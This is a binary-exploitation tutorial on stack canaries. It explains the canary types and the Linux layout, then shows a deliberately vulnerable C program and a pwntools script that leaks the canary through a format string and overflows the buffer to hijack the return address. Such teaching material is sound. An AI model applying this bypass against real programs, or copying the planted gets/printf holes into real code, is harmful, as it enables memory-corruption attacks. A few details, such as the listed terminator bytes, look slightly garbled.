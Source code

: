 # Stack Canaries

A stack canary is a value which the compiler may insert right before the stored base pointer on the stack. When a function is about to return to its caller, the canary is checked for modifications and if it is found to have been changed during the programme's execution, the executable deliberately aborts.

![](res/Images/Canaries/Canary%20Memory%20Layout.svg)

![](res/Images/Canaries/Stack%20Canary%20Abort%20Example.png)

There are 3 main types of canaries:
- **Random**: a random value generated when the programme is run and remains unchanged throughout its execution
- **Terminator**: a special value which is made up of bytes representing well-known bad characters (such as `0x00`, `0xaf` and ) that aim to prevent canary bypasses by terminating input functions
- **XOR**: a random value XOR-ed with the current saved base pointer which makes the canary unique for every function

In Linux, the canary is generated each time `execve()` is called and is stored at an offset of `0x28` from the `FS` register. Additionally, the last byte of Linux canaries is always `0x00`, so they are actually a mixture of a terminator and a random canary. Unfortunately, this distinction also makes them quite easy to spot.

![](res/Images/Canaries/Stack%20Canary%20Assembly.png)

## Bypassing Canaries

There are two main ways of bypassing canaries.

### Leaking the Canary
The first way is to leak the canary, for example by exploiting a format string vulnerability.

```cpp
#include <stdio.h>
#include <string.h>

void deleteDB() {
    puts("Database deleted.");
}

int main() {
    char buffer[64];

    puts("Enter name: ");
    gets(buffer);
    printf(buffer);

    puts("\nEnter age: ");
    gets(buffer);
    puts("Database updated.");
}

```

When we execute the programme, we can abuse the format string vulnerability in `printf(buffer);` to leak data from the stack like so:

![](res/Images/Canaries/Canary%20Leak.png)

The highlighted string looks awfully like a canary. We count that this is the 35th value on the stack and so we can check it a few more times just to be sure.

![](res/Images/Canaries/Canary%20Leak%20Confirmation.png)

Indeed, it appears to be a random value but always ends in `0x00`. Now that we can leak the canary, we can include it in our buffer overflow at the approriate position and when we would have essentially left the canary unchanged since we would overwrite it with its original value. Now we are ready to prepare our exploit:

```python
#!/usr/bin/python3

from pwn import *

p = process('./canary')

p.recvline() # receive the 'Enter name: ' line
p.sendline("%35$p") # exploit the format string

canary = int(p.recvline(), 16)

exploit = b'A' * 0x48 # overflow the buffer
exploit += p64(canary) # add the canary
exploit += b'A' * 0x8 # padding to the return address (overwriting the saved base pointer)
exploit += p64(0x401156) # address of deleteDB

p.recvline() # receive the 'Enter age: ' line
p.sendline(exploit)

print(p.clean().decode('latin-1'))
```

![](res/Images/Canaries/Canary%20Bypass.png)

### Bruteforcing the Canary

This technique abuses the fact that processes which are `fork`-ed from the same process will all share the same canary. This attack, however, is only really feasible on 32-bit machines, since the canary there is 32 bits long.